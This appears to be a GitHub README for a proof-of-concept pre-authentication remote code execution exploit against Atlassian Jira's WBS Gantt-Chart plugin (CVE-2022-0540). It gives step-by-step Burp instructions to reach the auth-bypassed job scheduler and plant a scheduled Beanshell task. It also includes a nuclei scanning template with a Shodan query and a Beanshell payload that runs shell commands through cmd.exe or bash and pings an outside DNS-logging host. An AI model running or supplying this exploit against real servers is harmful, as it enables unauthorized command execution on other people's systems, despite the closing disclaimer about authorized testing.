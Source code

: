# Atlassian Jira Seraph Authentication Bypass RCE（CVE-2022-0540）



<p align="center">
  <a href="https://github.com/Pear1y/CVE-2022-0540-Preauth-RCE/blob/main/README.md">English</a> •
  <a href="https://github.com/Pear1y/CVE-2022-0540-Preauth-RCE/blob/main/README_CN.md">中文</a>
</p>


## Exploit Details

As seen in author's [blog](https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/), atlassian provided a long list of affected plugins (the vast majority of which were false positives), and the author listed several actual affected plugins

![image-20220525190523282](images/image-20220525190523282.png)

According to the prompted conditions, combined with the Official documentation for [WBS Gantt-Chart for Jira](https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate)

![image-20220525190607569](images/image-20220525190607569.png)

Essentially, it is a RCE using the Beanshell Script of the job scheduler module Task, the exploit details are as follows.

1. For manual operation it's better to use the BurpSuite's replacement function `Proxy > Options > Match and Replace`, edit rule.

![image-20220525190640472](images/image-20220525190640472.png)

2. Use burp as a proxy to access the vulnerable Jira software，open `http://IP:PORT/secure/WBSGanttManageScheduleJobAction.jspa;` then you can check `job scheduler configuration`

![image-20220525190657966](images/image-20220525190657966.png)

Since our final Beanshell Script is executed as a timed task, you can modify the execution interval for your convenience by clicking Edit and modifying it according to the Cron format.

3. create Task

![image-20220525190713512](images/image-20220525190713512.png)

4. config Task

![image-20220525190728145](images/image-20220525190728145.png)

After the configuration is complete, click Update but jump to the login page, do not worry, the Task has actually been added in the background.

5. Enable Task

![image-20220525190740547](images/image-20220525190740547.png)

The newly created Task is Disable by default, you need to change it to Enable manually and then wait for a few seconds for Script to execute.

6. DNSLOG record

![image-20220525190756503](images/image-20220525190756503.png)

at the same time, you can find the prompt that execution completion in job scheduler.

![image-20220525190830668](images/image-20220525190830668.png)

<br>

Preconditions

```
WBS Gantt-Chart for Jira <= 9.14.3.1
```



## Verify Exploitable

```yaml
id: CVE-2022-0540

info:
  name: Atlassian Jira Seraph - Authentication Bypass Verify Exploitable(CVE-2022-0540)
  author: DhiyaneshDK
  severity: critical
  description: |
    Jira Seraph allows a remote, unauthenticated attacker to bypass authentication by sending a specially crafted HTTP request. This affects Atlassian Jira Server and Data Center versions before 8.13.18, versions 8.14.0 and later before 8.20.6, and versions 8.21.0 and later before 8.22.0. This also affects Atlassian Jira Service Management Server and Data Center versions before 4.13.18, versions 4.14.0 and later before 4.20.6, and versions 4.21.0 and later before 4.22.0.
  reference:
    - https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0540
    - https://confluence.atlassian.com/display/JIRA/Jira+Security+Advisory+2022-04-20
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2022-0540
    cwe-id: CWE-287
  metadata:
    shodan-query: http.component:"Atlassian Jira"
  tags: cve,cve2022,atlassian,jira,exposure,auth-bypass

requests:
  - method: GET
    path:
      - '{{BaseURL}}/secure/WBSGanttManageScheduleJobAction.jspa;'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'WBS Gantt-Chart'

      - type: regex
        regex:
          - '<td headers="name">([.|\D]*?)</td>'
        dsl: []

      - type: status
        status:
          - 200

```

Run-Demo

```
nuclei -l targets.txt -t exploit.yaml
```

Screenshot

![image-20220525173951955](images/image-20220525173951955.png)



## Referer

https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/

https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate

Beanshell Script

```java
import java.io.IOException;
import java.lang.*;

Runtime runtime = Runtime.getRuntime();

try {

    String command = "ping -nc 1 55d2721a.dns.1433.eu.org";

    if (System.getProperty("os.name").toLowerCase().contains("windows")) {
    	runtime.exec(new String[]{"cmd.exe", "/c", command});
    } else {
    	runtime.exec(new String[]{"/bin/bash", "-c", command});
    }

} catch (IOException e) {
    e.printStackTrace();
}

```



***The information mentioned in this article is intended for legitimate, authorized penetration testing, internal company security checks and research use only. The user is responsible for any adverse consequences arising from the use of the information provided in this article.***
